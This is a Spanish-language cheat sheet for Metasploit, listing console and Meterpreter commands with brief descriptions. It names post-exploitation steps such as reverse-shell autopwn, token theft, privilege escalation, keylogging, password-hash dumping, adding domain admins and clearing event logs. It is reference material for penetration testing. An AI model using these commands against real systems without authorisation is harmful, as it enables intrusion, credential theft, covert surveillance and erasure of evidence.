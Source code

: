 # Metasploit Cheat sheet


| Comandos de la consola de metasploit  |  Descripción |
| ------------ | ------------ |
|  show exploits |  Mostrar todos los exploits del Framework. |
| show payloads | Mostrar todos los payloads del Framework. |
| show auxiliary | Mostrar todos los módulos auxiliares del Framework. |
| search [cadena] | Búsqueda por cadena |
| search type:[exploit, payload, auxiliary, encoder, post] [cadena]| Búsqueda por tipo y cadena |
| info |	Muestra información acerca de un exploit cargado. |
| use [cadena] | Carga el exploit indicado. |
| LHOST​	|​Variable local host |
| RHOST​	|​Variable host remoto |
| set [parámetro] [valor] |​Graba en el parámetro el valor indicado.|
| setg[parámetro] [valor] |​Graba en valor para el parámetro indicado de forma global.|
| show options |​Muestra las opciones de un exploit.|
| show targets |​Muestra las plataformas objetivo del exploit.|
| set target [número] ​|Especifica un objetivo concreto de los posibles.|
| set payload [payload] ​|Especifica un payload a usar.|
| show advanced ​|Muestra las opciones avanzadas.|
| set autorunscript migrate -f ​|Migra el proceso a un hilo independiente de forma automática.|
| check​|	​Comprueba si un objetivo es vulnerable a un exploit.|
| exploit​	|​Ejecuta un exploit|
| exploit -j |​Ejecuta un exploit en background.|
| exploit -z |​No interactúa con la sesión después de acceder con éxito|
| exploit -e encoder |​Especifica el encoder a usar con el payload|
| exploit -h |​Muestra la ayuda para el exploit especificado|
| sessions -l ​|Muestra la lista de sesiones disponibles|
| sessions -l -v |​Muestra la lista de sesiones disponibles en modo verbose|
| sessions -s [script] |​Ejecuta un script específico en todas las sesiones de meterpreter activas.|
| sessions -K ​|Mata todas las sesiones activas|
| sessions -c cmd ​|Ejecuta un comando en todas las sesiones activas|
| sessions -u sessionID ​|Actualiza una shell de Win32 a una consola de meterpreter|
| db_create [nombre] ​|Crea una base de datos|
| db_connect [nombre] ​|Crea y se conecta a una base de datos|
| db_nmap ​|Usa y carga los resultados de Nmap en una base de datos|
| db_autopwn -h ​|Muestra la ayuda para usar db_autopwn.|
| db_autopwn -p -r -e |​Ejecuta db_autopwn contra todos los puertos encontrados, usa una shell reversa y los explota.|
| db_destroy ​|Elimina la actual base de datos|
| db_destroy [usuario]:[contraseña]@[host]:[puerto]/[base_de_datos] ​|Borra una base de datos concreta|

| Comandos de Meterpreter | Descripción |
| ------ | ------ |
| help​	​|Muestra la ayuda.|
| run [script] ​|Ejecuta un script de meterpreter|
| sysinfo​	​|Muestra la información del sistema comprometido|
| ls​	​|Muestra los ficheros y directorios del sistema comprometido|
| use priv ​|Carga librerías para elevar privilegios|
| ps​	|​Muestra los procesos en ejecución|
| migrate PID |​Migra un proceso específico.|
| use incognito ​|Carga las librerías de incógnito.|
| list_tokens -u ​|Muestra los tokens disponibles por usuario|
| list_tokens -g |​Muestra los tokens disponibles por grupo|
| impersonate_token [dominio]\\[usuario] |​Apropiación de un token disponible del objetivo.|
| steal_token PID ​|Apropiación de un token disponible de un proceso dado|
| drop_token ​|Deja de usar el token actual|
| getsystem​	​|Intenta elevar los privilegios del usuario de acceso.|
| shell​	|​Ejecuta una Shell interactiva|
| execute -f cmd.exe -i ​|Ejecuta cmd.exe e interactúa con él|
| execute -f cmd.exe -i -t ​|Ejecuta cmd.exe con todos los tokens disponibles|
| execute -f cmd.exe -i -H -t ​|Ejecuta cmd.exe con todos los tokens disponibles y lo convierte en un proceso oculto.|
| rev2self ​|Retorna al usuario original que comprometió el sistema|
| reg [comando] ​|Ejecuta comandos en el registro del sistema comprometido|
| setdesktop [número] ​|Cambia de pantalla|
| screenshot​	|​Toma una captura de pantalla del objetivo|
| upload file ​|Carga un fichero en el objetivo|
| download file ​|Descarga un fichero del objetivo|
| keyscan_start ​|Comienza el sniffing del teclado.|
| keyscan_dump ​|Vuelca las teclas pulsadas del sistema objetivo.|
| keyscan_stop ​|Para el sniffing del teclado.|
| getprivs |Intenta elevar privilegios.|
| uictl enable keyboard/mouse | Toma el control del teclado o ratón.|
| background |Sale de meterpreter sin cerrar la sesión.|
| hashdump	| Obtiene todos los hashes del objetivo.|
| use sniffer |Carga las librerías para esnifar.|
| sniffer_interfaces | Lista los interfaces disponibles.|
| sniffer_dump [interfaceID] pcapname |Comienza a esnifar un interfaz.|
| sniffer_start [interfaceID] packet-buffer | Comienza a esnifar un rango específico.|
| sniffer_stats [interfaceID] | Para obtener estadísticas de la interfaz.|
| sniffer_stop interfaceID |Detiene el sniffer.|
| add_user [usuario] [contraseña] -h [ip] |Añade un usuario en el sistema objetivo.|
| add_group_user "Domain Admins" [usuario] -h [ip] |Añade un usuario al grupo de administradores en el sistema objetivo.|
| clearev	|Vacía el log de eventos del sistema comprometido|
| timestomp |Cambia los atributos de un fichero.|
| reboot | Reinicia el sistema|
